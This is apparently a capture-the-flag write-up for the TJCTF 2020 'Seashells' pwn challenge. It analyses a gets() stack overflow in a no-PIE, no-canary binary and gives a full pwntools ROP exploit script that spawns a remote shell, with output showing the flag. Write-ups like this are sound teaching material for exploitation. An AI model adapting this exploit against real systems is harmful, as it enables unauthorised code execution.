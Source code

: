 # TJCTF 2020

## Seashells

> 50
>
> I heard there's someone [selling shells](seashells)? They seem to be out of stock though...
> 
> `nc p1.tjctf.org 8009`
>
> Written by  KyleForkBomb

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _rop_ _gets_


## Summary

Stack overflow, then ROP to internal function that provides a remote shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Some mitigations in place.  GOT off the table, can blow through stack, easy ROP (no PIE), no shellcode (NX).
    
### Decompile with Ghidra

![](main.png)

Line 13: `gets(local_12)`, 'nough said.  With no stack canary in place, it'll be easy to overwrite the return address.

_Whaaaaaaaa?_

![](shell.png)

"shell"-code, nice.  `shell` requires a parameter of `-0x2152350145414111` (`0xDEADCAFEBABEBEEF`), and can be bypassed if we wanted to hardcode an address, but since the game master(s) put in the effort for a check, we might as well honor it.  I mean, how clever of them to spell, in hex, `DEADCAFEBABEBEEF`.

`local_12` is `0x12` bytes above the return address:

```
             undefined8        RAX:8              <RETURN>
             undefined1        Stack[-0x12]:1     local_12                                
```

We just need to write out `0x12` bytes, then use a `pop rdi` gadget to set the parameter for `shell`, then call `shell`.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./seashells')
p = remote('p1.tjctf.org', 8009)

context.clear(arch='amd64')

binary = ELF('./seashells')
shell = binary.symbols['shell']

rop = ROP('seashells')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

payload  = b''
payload += 0x12 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(0xDEADCAFEBABEBEEF)
payload += p64(shell)

p.recvuntil('Would you like a shell?')
p.sendline(payload)

p.interactive()
```

This code should be self-explanatory, however there's an extra `ret` (`payload += p64(pop_rdi + 1)`).  This is required to align the stack, see [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a lengthly example and explanation.

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8009: Done
[*] '/pwd/datajerk/tjctf2020/seashells/seashells'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/pwd/datajerk/tjctf2020/seashells/seashells'
[*] Switching to interactive mode

why are you even here?
$ cat flag.txt
tjctf{she_s3lls_se4_sh3ll5}
```

